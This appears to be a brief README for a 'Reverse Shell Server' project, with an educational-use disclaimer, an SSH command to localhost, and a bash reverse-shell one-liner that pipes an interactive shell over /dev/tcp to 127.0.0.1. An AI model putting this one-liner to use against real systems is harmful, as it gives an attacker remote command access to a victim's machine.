 # Reverse Shell Server

DISCLAIMER: This application is for educational purposes ONLY.

Not yet ready for production use.

```
ssh user@127.0.0.1 -p 13336
```

```
/bin/bash -c "/bin/bash -i >/dev/tcp/127.0.0.1/13335 0>&1"
```
